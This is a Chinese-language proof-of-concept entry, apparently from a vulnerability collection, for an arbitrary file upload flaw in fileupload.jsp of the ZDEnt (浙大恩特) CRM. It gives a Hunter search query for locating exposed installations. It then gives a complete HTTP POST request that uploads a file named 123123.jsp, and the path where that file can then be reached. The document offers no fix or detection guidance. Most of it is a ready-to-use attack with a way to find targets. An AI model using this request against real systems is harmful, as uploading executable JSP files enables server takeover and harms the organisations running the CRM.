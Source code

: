 # 浙大恩特CRM  fileupload.jsp 任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM是由浙江大学恩智浙大科技有限公司推出的客户关系管理（CRM）系统。该系统旨在帮助企业高效管理客户关系，提升销售业绩，促进市场营销和客户服务的优化。系统支持客户数据分析和报表展示，帮助企业深度挖掘客户数据，提供决策参考。浙大恩特CRM fileupload.jsp存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器控制权限。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM</font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="浙大恩特 CRM"`
+ 特征

![1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a.png](./img/MNKDc3hnljdTlvOE/1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a-154874.png)

# 四、漏洞复现
```plain
POST /entsoft_en/entereditor/jsp/fileupload.jsp?filename=123123.jsp HTTP/1.1
Host: xx.xx.xx.xx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=2511BA8347F6BD511B037A4B0C40DDE3; JSESSIONID=17BAFD608E509D1C96AF5715B9C0C235
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

test
```

![1700146846618-56989d7b-0142-47ed-ba9c-3b4e5ce5728d.png](./img/MNKDc3hnljdTlvOE/1700146846618-56989d7b-0142-47ed-ba9c-3b4e5ce5728d-919392.png)

上传文件位置

```plain
	/enterdoc/uploadfile/123123.jsp
```

![1700146879660-7bc87d16-6df6-426a-ae19-fce2cb505006.png](./img/MNKDc3hnljdTlvOE/1700146879660-7bc87d16-6df6-426a-ae19-fce2cb505006-245853.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gpf53pls4igr823a>